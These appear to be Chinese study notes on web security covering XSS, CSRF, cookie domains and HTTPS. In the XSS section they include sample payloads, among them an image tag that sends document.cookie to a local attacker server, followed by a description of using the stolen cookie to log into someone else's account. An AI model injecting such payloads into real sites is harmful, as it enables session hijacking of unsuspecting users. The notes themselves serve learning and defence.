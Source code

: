 <!--
 * @Date: 2019-11-26 14:47:27
 * @LastEditors: polo 826770122@qq.com
 * @LastEditTime: 2024-01-22 17:52:45
-->
## 安全防范知识点
```js
1.XSS
简单点来说，就是攻击者想尽一切办法将可以执行的代码注入到网页中
解决办法：对于用户的输入应该是永远不信任的。最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
1. 反射型 通过诱导用户点击一个恶意链接 或者提交一个表单
2. 存储型 攻击者在论坛写下一篇包含恶意JavaScript的代码文章或者评论 文章发表后，所有访问该文章的用户 都会在他们的浏览器中执行恶意的JavaScript代码
https://blog.csdn.net/m0_37631322/article/details/81346335

实例操作：
一个评论功能，通过提交一条带有script脚本的评论，这条评论可以是<script>alert(1)</script>
这种，如果提交上去了那么每次进入页面的用户都会弹出这个弹窗。也可以插入一张图片<img src="http://127.0.0.1:3000/?content=" +document.cookie> 只要用户进入我们就可以在我们的服务器获取到该用户的用户信息cookie，这样我们通过editthiscookie插件就可以登录别人的帐号了
2.CSRF

https://www.cnblogs.com/lsj-info/p/9479755.html
有一个正常的网站处于登录态，用户在没有关闭浏览器又打开一个黑客网页，黑客网页发送HTTP请求到正常网页的后台会默认带上正常网页登录态的cookie。
防护方法：
Referrer
```

## cookie的domain属性
www.baidu.com已经登录，如何让tieba.baidu.com直接登录: 可以设置cookie的domain为.baidu.com
```
https://blog.csdn.net/longgege001/article/details/81274088
```

https和http
HTTP：超文本传输协议 是一种发布和接受HTML页面的方法用户web浏览器和网站服务器之间传递信息，默认端口为80
HTTP 协议以明文方式发送内容，不提供任何方式的数据加密，如果攻击者截取了Web浏览器和网站服务器之间的传输报文，就可以直接读懂其中的信息，因此，HTTP协议不适合传输一些敏感信息，比如：信用卡号、密码等支付信息

HTTPS：是一种透过计算机网络进行安全通信的传输协议，HTTPS经由HTTP进行通信，但利用SSL/TLS来加密数据包，HTTPS开发的主要目的是提供对服务器的身份认证，保护交换数据的隐私和完整性
HTTPS默认端口为443 工作流程一般为 
1. TCP3次握手
2. 客户端验证服务端数字证书
3. DH算法协商对称加密算法的密钥、hash算法的密钥
4. SSL安全加密隧道协商完成
5. 网页以加密的方式传输，用协商的对称加密算法和密钥加密，保证数据机密性